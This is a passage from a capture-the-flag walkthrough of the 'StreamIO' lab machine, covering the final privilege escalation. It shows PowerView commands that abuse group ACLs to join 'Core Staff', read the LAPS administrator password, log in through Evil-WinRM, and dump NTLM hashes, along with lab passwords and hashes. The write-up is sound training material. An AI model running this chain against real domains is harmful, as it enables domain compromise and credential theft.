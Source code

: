 Now we can create a credential object for JDgodd:

```powershell
*Evil-WinRM* PS C:\Users\nikk37\Documents> $SecPassword = ConvertTo-SecureString 'JDg0dd1s@d0p3cr3@t0r' -AsPlainText -Force
*Evil-WinRM* PS C:\Users\nikk37\Documents> $Cred = New-Object System.Management.Automation.PSCredential('streamio\JDgodd', $SecPassword)
```

And use that to add him to the **CORE STAFF** group:

```powershell
*Evil-WinRM* PS C:\Users\nikk37\Documents> Add-DomainObjectAcl -Credential $Cred -TargetIdentity "Core Staff" -principalidentity "streamio\JDgodd"
*Evil-WinRM* PS C:\Users\nikk37\Documents> Add-DomainGroupMember -identity "Core Staff" -members "streamio\JDgodd" -credential $Cred
```

Now give it a few minutes for the changes to replicated around, then you can pull the LAPS password out:

```powershell
*Evil-WinRM* PS C:\Users\nikk37\Documents> Get-DomainObject dc.streamio.htb -Credential $Cred -Properties "ms-mcs-AdmPwd",name

name ms-mcs-admpwd
---- -------------
DC   XgTt7YW50.0y]F
```

## Root Flag

Now we can grab the root flag by connecting as the local administrator:

```powershell
┌──(root㉿kali)-[~/htb/streamio]
└─# evil-winrm -i streamio.htb -u Administrator -p 'XgTt7YW50.0y]F'
Evil-WinRM shell v3.3
*Evil-WinRM* PS C:\Users\Administrator\Documents>

*Evil-WinRM* PS C:\Users\Administrator> type c:\users\martin\desktop\root.txt
1fa5dc25cb374ec74ca246288c26fa7f
```

Here's a few hashes via Meterpreter just for fun:

```sh
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:7a98a423173ace118447a53577aa1767:::
JDgodd:1104:aad3b435b51404eeaad3b435b51404ee:8846130392c4169cb552fe5b73b046af:::
Martin:1105:aad3b435b51404eeaad3b435b51404ee:a9347432fb0034dd1814ca794793d377:::
nikk37:1106:aad3b435b51404eeaad3b435b51404ee:17a54d09dd09920420a6cb9b78534764:::
yoshihide:1107:aad3b435b51404eeaad3b435b51404ee:6d21f46be3697ba16b6edef7b3399bf4:::
```

That was a great box. I hope you learned something from this lengthy walkthrough. See you next time.
